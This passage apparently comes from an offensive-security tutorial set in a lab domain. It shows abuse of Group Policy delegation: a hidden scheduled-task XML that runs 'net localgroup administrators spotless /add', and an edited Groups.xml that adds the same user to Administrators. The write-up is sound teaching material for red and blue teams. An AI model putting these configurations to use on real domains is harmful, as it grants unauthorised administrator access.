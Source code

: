 ```markup
                    <StartWhenAvailable>true</StartWhenAvailable>
                    <AllowStartOnDemand>false</AllowStartOnDemand>
                    <Enabled>true</Enabled>
                    <Hidden>true</Hidden>
                    <ExecutionTimeLimit>PT0S</ExecutionTimeLimit>
                    <Priority>7</Priority>
                    <DeleteExpiredTaskAfter>PT0S</DeleteExpiredTaskAfter>
                    <RestartOnFailure>
                        <Interval>PT15M</Interval>
                        <Count>3</Count>
                    </RestartOnFailure>
                </Settings>
                <Actions Context="Author">
                    <Exec>
                        <Command>cmd</Command>
                        <Arguments>/c net localgroup administrators spotless /add</Arguments>
                    </Exec>
                </Actions>
                <Triggers>
                    <TimeTrigger>
                        <StartBoundary>%LocalTimeXmlEx%</StartBoundary>
                        <EndBoundary>%LocalTimeXmlEx%</EndBoundary>
                        <Enabled>true</Enabled>
                    </TimeTrigger>
                </Triggers>
            </Task>
        </Properties>
    </ImmediateTaskV2>
</ScheduledTasks>
```
{% endtab %}
{% endtabs %}

### Users and Groups

The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:

{% tabs %}
{% tab title="\\\\offense.local\\SysVol\\offense.local\\Policies\\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\\Machine\\Preferences\\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```
{% endtab %}
{% endtabs %}
